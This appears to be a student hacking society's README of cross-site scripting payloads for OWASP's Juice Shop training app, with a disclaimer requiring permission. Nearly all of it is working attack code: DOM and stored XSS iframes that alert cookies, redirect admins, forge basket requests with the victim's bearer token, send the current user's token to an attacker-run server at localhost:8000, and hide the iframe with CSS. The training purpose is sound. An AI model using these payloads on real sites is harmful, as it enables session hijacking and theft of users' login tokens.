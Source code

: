 # Disclaimer

All scripts developed for educational purposes during sessions with Sheffield Ethical Student Hackers Society, and executed on OWASP's dedicated Juice Shop training platform. Do not execute these scripts unless you have explicit permission. SESH Code of Conduct can be found [here](https://shefesh.com/downloads/SESH%20Code%20of%20Conduct.pdf).

# DOM XSS

To be injected via the search bar. Renders immediately after executing search.

## Printing Cookies to Screen

`<iframe src="javascript:alert(document.cookie)">`

## Redirect to SESH Website

`<iframe src="javascript:window.top.location.href = 'http://www.shefesh.com';">`

## Add an item to Basket

`<iframe src="javascript:var http = new XMLHttpRequest(); var url = '/api/BasketItems'; http.open('POST', url); var cookie = document.cookie; var token = cookie.substring(cookie.indexOf('token=') + 6); http.setRequestHeader('Content-Type', 'application/json'); http.setRequestHeader('Authorization', 'Bearer ' + token); http.send(JSON.stringify({'ProductId':2, 'BasketId':'1', 'quantity':1}));">`

# Persistent XSS

To be injected via the customer feedback form. Renders on both 'About Us' and 'Administration' pages.

## Printing Cookies to Screen

`<<script>Foo</script>iframe src="javascript:alert(document.cookie)">`

## Redirect to Homepage

Especially irritating script - prevents admins from viewing the Administration page.

`<<script>Foo</script>iframe src="javascript:window.top.location.href = ‘/#/’;">`

## Add an item to Basket

`<<script>Foo</script>iframe src="javascript:var http = new XMLHttpRequest(); var url = '/api/BasketItems'; http.open('POST', url); var cookie = document.cookie; var token = cookie.substring(cookie.indexOf('token=') + 6); http.setRequestHeader('Content-Type', 'application/json'); http.setRequestHeader('Authorization', 'Bearer ' + token); http.send(JSON.stringify({'ProductId':2, 'BasketId':'1', 'quantity':1}));">`

## Steal the Current User's Token

Best applied via persistent XSS, although can be used as DOM. Must have a server running - see [my script](https://github.com/Twigonometry/CTF-Tools/blob/master/scripts/simple-python-server.py).

`<<script>Foo</script>iframe src="javascript:var http = new XMLHttpRequest(); var url = 'http://localhost:8000'; http.open('POST', url); var cookie = document.cookie; var token = cookie.substring(cookie.indexOf('token=') + 6); http.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); http.send(JSON.stringify({'StolenToken':token}));">`

# Sneaky Payload

Makes use of CSS style options to conceal the iframe. Can be applied to any of above payloads.

`<iframe style=“width: 1px; height: 1px; display: none;” src=“javascript:alert(‘xss’);”>`
